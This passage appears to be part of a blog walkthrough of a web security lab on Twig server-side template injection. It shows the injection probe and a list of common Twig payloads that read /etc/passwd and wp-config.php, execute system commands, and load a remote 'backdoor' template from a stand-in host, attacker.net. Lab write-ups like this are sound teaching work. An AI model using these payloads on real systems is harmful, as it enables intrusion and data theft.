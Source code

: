 <br>
{% smart_image /blog/assets/2023/ssti-custom-exploit-twig3.png 1384 332 "Internal server error PHP fatal error multiple lines mentioning twig" lazy "" webp async %}
<br>

Which is quite useful. It shows we are dealing with Twig Template. We can now use some Twig syntax to see if there is template Injection:

{% raw %}
```
blog-post-author-display=user.first_name}}{{7*7
```
{% endraw %}

Then we can see, the result is reflected in our first name in the comments:

<br>
{% smart_image /blog/assets/2023/ssti-custom-exploit-twig4.png 727 442 "The result Peter49 is shown as the name in post comments" lazy "" webp async %}
<br>

So we have template injection, but can we exploit it? 

We search for some common Twig payloads and test them in the above section:

{% raw %}
```php
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```
{% endraw %}

and see none of them actually work, so we still have a template injection that we may be able to use later, so let's move on:

{:start="3"}
3. We also see that we can upload our avatar image here:

<br>
{% smart_image /blog/assets/2023/ssti-custom-exploit-twig5.png 714 179 "" lazy "" webp async %}
<br>

First, we upload an actual image and check the request/response, no useful info is found, then let's see what happens if we don't select any file and click upload, as we can see we get an error:


[^1]: Icon made by [Freepik](https://www.flaticon.com/authors/freepik) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Server-side template injection \| Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)
[^3]: [Twig Documentation](https://twig.symfony.com/doc/)
[^4]: [Constructing a custom exploit using developer-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting#constructing-a-custom-exploit-using-developer-supplied-objects)